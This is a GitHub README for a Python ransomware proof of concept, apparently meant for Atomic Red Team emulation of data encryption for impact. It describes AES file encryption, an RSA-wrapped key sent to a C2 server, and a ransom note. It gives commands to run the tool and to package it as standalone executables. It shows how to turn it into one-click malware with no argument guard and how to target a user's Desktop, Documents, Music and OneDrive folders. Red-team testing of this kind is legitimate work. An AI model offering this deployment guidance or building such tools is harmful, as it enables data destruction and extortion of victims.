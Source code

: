 # Ransomware-PoC
A simple python ransomware PoC that can be used for Atomic Red Team: **ATT&CK Technique: Data Encrypted for Impact (T1486)**. The project is built off [CryptSky](https://github.com/deadPix3l/CryptSky) and full credits goes to deadPix3l for his code. The updated code demonstrates a typical ransomware flow and it is just one of many ways to perform ransomware encryption.

 TLDR:
 1. Generates AES key to encrypt local file (hardcoded in PoC).
 2. The attacker's embedded RSA public key (intentionally hardcoded in PoC) is used to encrypt the AES key. The private key is already stored in the attacker's C2 server. The encrypted text is sent to the C2 server and displayed for the victim.
 3. Ransom note is shown. When the ransom is paid, a decryptor is provided. 
 
**Warning**: Be extra careful of running the program as it will modify files. Ensure the path is correct and be wary in running with administrative privileges.

# Supported
* python3 (python2 for Linux/macOS should work)
* Windows, Linux and macOS

# Versions
There are two versions:

Version 1: main.py
- Basic version - Terminal Only

Version 2: main_v2.py
- Advanced version
- Ransom note pop up
- Exfiltrate key back to C2 given domain and port

# How to run
Install dependencies:
```bash
pip3 install pycryptodome
```

Default:
```
Encrypt: python3 main.py -e or python3 main_v2.py -e
Decrypt: python3 main.py -d or python3 main_v2.py -e
```

Windows with specific path:
```
Encrypt: python3 main_v2.py -p "C:\users\jimmy\desktop\test_ransomware" -e
Decrypt: python3 main_v2.py -p "C:\users\jimmy\desktop\test_ransomware" -d
```

Linux/macOS with specific path:
```
Encrypt: python3 main_v2.py -p "/home/jimmy/test_ransomware" -e
Decrypt: python3 main_v2.py -p "/home/jimmy/test_ransomware" -d
```

Variables to change:
* Ransomware Extension [default: .wasted for WastedLocker]
* AES Key
* RSA Public key
* RSA Private key (to be removed). Only used for decryptor.
* Domain and port for exfiltration (main_v2)

NB: As this is simply a PoC for Atomic Red Team, there is no real need to change the keys or other variables.

# Standalone Executable
Tested with python 2.7 with pyinstaller 3.6 and python 3.7 with pyinstaller 4.0. Please note that python 3.8 with pyinstaller 4.0 have known issues as this was incompatible with macOS.

Windows and Linux:
```bash
pip3 install pyinstaller
pyinstaller --onefile main_v2.py or py -m PyInstaller --onefile main_v2.py
```

macOS:
```
(python 3.7)
python3 -m pip install pyinstaller
pyinstaller --onefile main_v2.py

(python 2.7)
pip install -I pyinstaller==3.6
python -m PyInstaller --onefile main_v2.py
```

See `/bin` folder for binaries.


Windows with specific path:
```
Encrypt: main_v2.exe -p "C:\users\jimmy\desktop\test_ransomware" -e
Decrypt: main_v2.exe -p "C:\users\jimmy\desktop\test_ransomware" -d
```

Linux with specific path:
```
Encrypt: ./main_v2 -p "/home/jimmy/test_ransomware" -e
Decrypt: ./main_v2 -p "/home/jimmy/test_ransomware" -d
```

macOS with specific path:
```
Encrypt: ./main_v2_macos_py2 -p "/Users/jimmy/test_ransomware" -e
Decrypt: ./main_v2_macos_py2 -p "/Users/jimmy/test_ransomware" -d
```

## Miscellaneous 
### One-click execution

I originally added arguments to prevent accidental clicks and mess up. To simulate a one-click malware, comment and uncomment the following:

Comment
```python
if len(sys.argv) <= 1:
    print('[*] Ransomware - PoC\n')
    # banner()        
    print('Usage: python3 main.py -h')
    print('{} -h for help.'.format(sys.argv[0]))
    exit(0)

# Parse arguments
args = parse_args()
encrypt = args.encrypt
decrypt = args.decrypt

absolute_path = str(args.path)
 ```   

Uncomment
```python
absolute_path = "None"
encrypt = True 
decrypt = False
```

### Multiple folders
There is support for multiple paths, add them as such:

```python
startdirs = [os.environ['USERPROFILE'] + '\\Desktop', 
                        os.environ['USERPROFILE'] + '\\Documents',
                        os.environ['USERPROFILE'] + '\\Music',
                        os.environ['USERPROFILE'] + '\\Desktop',
                        os.environ['USERPROFILE'] + '\\Onedrive']
```

# Demo
#### Version 1
![Ransomware-PoC](/demo/download.gif)

#### Version 2
![main_v2-PoC](/demo/main_v2.png)


# Additional Features
* Added RSA asymmetric encryption of the AES key.
* Added autodetection on Windows, Linux or macOS.
* Added path argument to specify a directory.
* Fixed handling of renaming files with adding/removing of the ransomware extension.
* Added ransomware note pop up.
* Added exfiltration of key back to C2.

# Credit
- [CryptSky](https://github.com/deadPix3l/CryptSky) (deadPix3l and contributors) for base project
- [Demonware (Cerberus)](https://github.com/StrangerealIntel/Cerberus/blob/abd7d069edc2009a33ae1102f54abc935452e766/Demonware/2020-09-15/Demonware.py)  (StrangerealIntel) for ransom image and exfiltration
